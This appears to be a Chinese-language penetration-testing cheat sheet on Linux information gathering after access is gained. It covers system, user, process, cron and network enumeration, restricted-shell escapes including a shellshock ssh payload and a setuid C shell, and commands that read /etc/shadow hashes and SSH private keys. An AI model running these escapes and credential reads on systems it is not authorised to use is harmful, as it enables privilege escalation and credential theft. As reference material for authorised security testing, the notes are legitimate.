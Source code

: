 信息收集 - Linux
========================================

获取内核，操作系统和设备信息
----------------------------------------
- PEASS-ng
	- ``https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh`` 列举在Linux系统上提升特权的所有可能方法
- LinEnum
	- ``https://github.com/rebootuser/LinEnum`` Linux文件枚举及权限提升检查工具
- 版本信息
    - ``uname -a`` 所有版本
    - ``uname -r`` 内核版本信息
    - ``uname -n`` 系统主机名字
    - ``uname -m`` Linux内核架构
- 内核信息 ``cat /proc/version``
- CPU信息 ``cat /proc/cpuinfo``
- 发布信息
    - ``cat /etc/*-release``
    - ``cat /etc/issue``
- 主机名 ``hostname``
- 文件系统 ``df -a``
- 内核日志 ``dmesg`` / ``/var/log/dmesg``
- 查看当前shell ``echo $0``
	
	::
	
		Restricted Shell
		使用“rbash”，“ - restricted”，“ - r”选项启动任何现有的shell，那么它将成为Restricted shell。
		Restricted Shell将限制用户执行大多数命令和更改当前工作目录。Restricted Shell将对用户施加以下限制。
		1.它不允许您执行cd命令。所以你不能去任何地方。您可以简单地留在当前的工作目录中。
		2.它不允许您修改  $ PATH，$ SHELL，$ BASH_ENV或$ ENV环境变量的值。
		3.它不允许您执行包含/（斜杠）字符的程序。例如，您无法运行/ usr / bin / uname或./uname命令。但是，您可以执行uname命令。换句话说，您只能在当前路径中运行命令。
		4.您无法使用'重定向输出'>'，'> |'，'<>'，'>＆'，'＆>'，'和'>>'重定向运算符。
		5.它不允许您在脚本中退出受限制的shell模式。
		6.它不允许您使用'set + r'或'set + o restricted'关闭受限制的shell模式。
		常见的受限制 shell 有:rbash、rksh、rsh、lshell.
- 突破受限shell
	- 枚举Linux环境
		
	::
	
		枚举是找到突破方法的重要组成部分。我们需要枚举Linux环境来检测为了绕过rbash我们可以做哪些事。
		在正式进行绕过测试之前,我们需要进行以下操作:
		1、首先,我们必须检查可用命令,像cd、ls、echo等
		2、接下来我们要检查常见的操作符,像>、>>、<、|
		3、然后对可用的编程语言进行检查,如perl、ruby、python等
		4、通过sudo -l命令检查我们可以使用root权限运行哪些命令
		5、使用SUID perm检查文件或命令。
		6、使用echo $SHELL命令检查当前使用的是什么shell(90%得到的结果是rbash)
		7、使用env或者printenv命令检查环境变量
		通过以上操作,我们已收集到一些游泳的信息,接下来尝试一下通用的利用方法。
		
	- 通用利用技巧

	::
	
		1、如果"/"命令可用的话,运行/bin/sh或者/bin/bash
		2、运行cp命令,将/bin/sh或者/bin/bash复制到当前目录
		3、在ftp中运行!/bin/sh或者!/bin/bash,如下图所示
		4、在gdb中运行!/bin/sh或者!/bin/bash
		5、在more、man、less中运行!/bin/sh或者!/bin/bash
		6、在vim/vi中运行!/bin/sh或者!/bin/bash
		7、在rvim中执行:python import os; os.system("/bin/bash )
		8、scp -S /path/yourscript x y:
		9、awk 'BEGIN {system("/bin/sh or /bin/bash")}'
		10、find / -name test -exec /bin/sh or /bin/bash \;
		
	- 编程语言技巧
	
	::
	
		1、使用except spawn
		2、python -c 'import os; os.system("/bin/sh")'
		3、php -a then exec("sh -i");
		4、perl -e 'exec "/bin/sh";'
		5、Lua:os.execute('/bin/sh').
		6、ruby:exec "/bin/sh"
		7、python: echo os.system('/bin/bash')
		
	- 高级利用技巧
	
	::
	
		1、ssh username@IP – t "/bin/sh" or "/bin/bash"
		2、ssh username@IP -t "bash –noprofile"
		3、ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
		4、ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
		5、git帮助状态下通过!/bin/bash进入交互式shell
		6、pico -s "/bin/bash"进入编辑器写入/bin/bash然后按ctrl + T键
		7、zip /tmp/test.zip /tmp/test -T –unzip-command="sh -c /bin/bash"
		8、tar cf /dev/null testfile –checkpoint=1 –checkpointaction=exec=/bin/bash
		9、c setuid shell:
		#include <stdlib.h>
		#include <unistd.h>
		#include <stdio.h>
		int main(int argc,char **argv,char **envp)
		{
			setresgid(getegid(),getegid(),getegid());
			setresuid(geteuid(),geteuid(),geteuid());
			
		 execve("/bin/sh",argv,envp);
		 return 0;
		}
			
	- ``ssh guest@x.x.x.x -t "python -c 'import pty;pty.spawn(\"/bin/bash\")'"``

用户和组
----------------------------------------
- 列出系统所有用户 ``cat /etc/passwd``
	::
	
		root:x:0:0::/root:/bin/bash
		bin:x:1:1::/:/usr/bin/nologin
		daemon:x:2:2::/:/usr/bin/nologin
		mail:x:8:12::/var/spool/mail:/usr/bin/nologin
		ftp:x:14:11::/srv/ftp:/usr/bin/nologin
		http:x:33:33::/srv/http:/usr/bin/nologin
		nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
		dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
		systemd-journal-remote:x:981:981:systemd Journal Remote:/:/usr/bin/nologin
		systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
		systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
		systemd-resolve:x:978:978:systemd Resolver:/:/usr/bin/nologin
		systemd-timesync:x:977:977:systemd Time Synchronization:/:/usr/bin/nologin
		systemd-coredump:x:976:976:systemd Core Dumper:/:/usr/bin/nologin
		uuidd:x:68:68::/:/usr/bin/nologin
		dhcpcd:x:975:975:dhcpcd privilege separation:/:/usr/bin/nologin
		py:x:1000:1000::/home/py:/bin/bash
		git:x:974:974:git daemon user:/:/usr/bin/git-shell
		redis:x:973:973:Redis in-memory data structure store:/var/lib/redis:/usr/bin/nologin
		
		注册名：口令：用户标识号：组标识号：用户名：用户主目录：命令解释程序
		(1)注册名(login_name)：该字段被限制在8个字符(字母或数字)的长度之内,字母大小写是敏感的。
		(2)口令(passwd)：系统用口令来验证用户的合法性。
		现在的Unix/Linux系统中，口令不再直接保存在passwd文件中，通常将passwd文件中的口令字段使
		用一个“x”来代替，将/etc/shadow作为真正的口令文件，用于保存包括个人口令在内的数据。
		如果passwd字段中的第一个字符是“*”的话，表示系统不允许持有该账号的用户登录。 
		(3)用户标识号(UID)：UID是一个数值，是Linux系统中惟一的用户标识，用于区别不同的用户。 
		(4)组标识号(GID)：这是当前用户的缺省工作组标识。
		(5)用户名(user_name)：包含有关用户的一些信息。
		(6)用户主目录(home_directory)：该字段定义了个人用户的主目录。
		(7)命令解释程序(Shell)：通常是一个Shell程序的全路径名，如/bin/bash。 

- 列出系统所有组 ``cat /etc/group``
- 列出所有用户hash（root）``cat /etc/shadow``
	::
	
		root:$6$RucK3DjUUM8TjzYJ$x2etp95bJSiZy6WoJmTd7UomydMfNjo97Heu8nAob9Tji4xzWSzeE0Z2NekZhsyCaA7y/wbzI.2A2xIL/uXV9.:18450:0:99999:7:::
		daemon:*:18440:0:99999:7:::
		bin:*:18440:0:99999:7:::
		sys:*:18440:0:99999:7:::
		sync:*:18440:0:99999:7:::
		games:*:18440:0:99999:7:::
		man:*:18440:0:99999:7:::
		lp:*:18440:0:99999:7:::
		mail:*:18440:0:99999:7:::
		news:*:18440:0:99999:7:::
		uucp:*:18440:0:99999:7:::
		proxy:*:18440:0:99999:7:::
		www-data:*:18440:0:99999:7:::
		backup:*:18440:0:99999:7:::
		list:*:18440:0:99999:7:::
		irc:*:18440:0:99999:7:::
		gnats:*:18440:0:99999:7:::
		nobody:*:18440:0:99999:7:::
		_apt:*:18440:0:99999:7:::
		systemd-timesync:*:18440:0:99999:7:::
		systemd-network:*:18440:0:99999:7:::
		systemd-resolve:*:18440:0:99999:7:::
		messagebus:*:18440:0:99999:7:::
		avahi-autoipd:*:18440:0:99999:7:::
		sshd:*:18440:0:99999:7:::
		avahi:*:18440:0:99999:7:::
		saned:*:18440:0:99999:7:::
		colord:*:18440:0:99999:7:::
		hplip:*:18440:0:99999:7:::
		systemd-coredump:!!:18440::::::
		296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::
		
		文件的格式为：{用户名}：{加密后的口令密码}：{口令最后修改时间距原点(1970-1-1)的天数}：{口令最小修改间隔(防止修改口令，如果时限未到，将恢复至旧口令)：{口令最大修改间隔}：{口令失效前的警告天数}：{账户不活动天数}：{账号失效天数}：{保留}
		其中{加密后的口令密码}的格式为 $id$salt$encrypted
		id为1时，采用md5算法加密
		id为5时，采用SHA256算法加密
		id为6时，采用SHA512算法加密
		salt为盐值,是对密码进行hash的一个干扰值
		encrypted为散列值
	
- 用户
    - 查询用户的基本信息 ``finger``
    - 当前登录的用户 ``users`` ``who -a`` ``/var/log/utmp``
- 目前登录的用户 ``w``
- 登入过的用户信息 ``last`` / ``/var/log/wtmp``
- 显示系统中所有用户最近一次登录信息 ``lastlog`` / ``/var/log/lastlog``
- 登录成功日志 ``/var/log/secure``
- 登录失败日志 ``/var/log/faillog``
- 查看特权用户 ``grep :0 /etc/passwd``
- 查看passwd最后修改时间 ``ls -l /etc/passwd``
- 查看是否存在空口令用户 ``awk -F: 'length($2)==0 {print $1}' /etc/shadow``
- 查看远程登录的账号 ``awk '/\$1|\$6/{print $1}' /etc/shadow``
- 查看具有sudo权限的用户
    - ``cat /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"``

用户和权限信息
----------------------------------------
- 当前用户 ``whoami``
- 当前用户信息 ``id``
- 可以使用sudo提升到root的用户（root） ``cat /etc/sudoers``
- 列出目前用户可执行与无法执行的指令 ``sudo -l``

环境信息
----------------------------------------
- 打印系统环境信息 ``env``
- 打印系统环境信息 ``set``
- 环境变量中的路径信息 ``echo  $PATH``
- 打印历史命令 ``history`` / ``~/.bash_history``
- 显示当前路径 ``pwd``
- 显示默认系统遍历 ``cat /etc/profile``
- 显示可用的shell ``cat /etc/shells``

进程信息
----------------------------------------
- 查看进程信息 ``ps aux``
- 资源占有情况 ``top -c``
- 查看进程关联文件 ``lsof -c $PID``

服务信息
----------------------------------------
- 由inetd管理的服务列表 ``cat /etc/inetd.conf``
- 由xinetd管理的服务列表 ``cat /etc/xinetd.conf``
- nfs服务器的配置 ``cat /etc/exports``
- 邮件信息 ``/var/log/mailog``

计划任务
----------------------------------------
- 显示指定用户的计划作业（root） ``crontab -l -u %user%``
- 计划任务
    - ``/var/spool/cron/*``
    - ``/var/spool/anacron/*``
    - ``/etc/crontab``
    - ``/etc/anacrontab``
    - ``/etc/cron.*``
    - ``/etc/anacrontab``
- 开机启动项
    - ``/etc/rc.d/init.d/``

有无明文存放用户密码
----------------------------------------
- grep -i user [filename]
- grep -i pass [filename]
- grep -C 5 "password" [filename]
- find , -name "\*\.php" -print0 | xargs -0 grep -i -n "var \$password"

有无ssh 私钥
----------------------------------------
- cat ~/.ssh/authorized_keys
- cat ~/.ssh/identity.pub
- cat ~/.ssh/identity
- cat ~/.ssh/id_rsa.pub
- cat ~/.ssh/id_rsa
- cat ~/.ssh/id_dsa.pub
- cat ~/.ssh/id_dsa
- cat /etc/ssh/ssh_config
- cat /etc/ssh/sshd_config
- cat /etc/ssh/ssh_host_dsa_key.pub
- cat /etc/ssh/ssh_host_dsa_key
- cat /etc/ssh/ssh_host_rsa_key.pub
- cat /etc/ssh/ssh_host_rsa_key
- cat /etc/ssh/ssh_host_key.pub
- cat /etc/ssh/ssh_host_key


网络、路由和通信
----------------------------------------
- 列出网络接口信息 ``/sbin/ifconfig -a`` / ``ip addr show``
- 列出网络接口信息 ``cat /etc/network/interfaces``
- 查看系统arp表 ``arp -a``
- 打印路由信息 ``route`` / ``ip ro show``
- 查看dns配置信息 ``cat /etc/resolv.conf``
- 打印本地端口开放信息 ``netstat -an``
- 列出iptable的配置规则 ``iptables -L``
- 查看端口服务映射 ``cat /etc/services``
- Hostname ``hostname -f``
- 查看进程端口情况 ``netstat -anltp | grep $PID``

已安装程序
----------------------------------------
- ``rpm -qa --last`` Redhat
- ``yum list | grep installed`` CentOS
- ``ls -l /etc/yum.repos.d/``
- ``dpkg -l`` Debian
- ``cat /etc/apt/sources.list`` Debian APT
- ``pkg_info`` xBSD
- ``pkginfo`` Solaris
- ``pacman -Q`` Arch Linux

文件
----------------------------------------
- 最近五天的文件 ``find / -ctime +1 -ctime -5``
- 文件系统细节 ``debugfs``

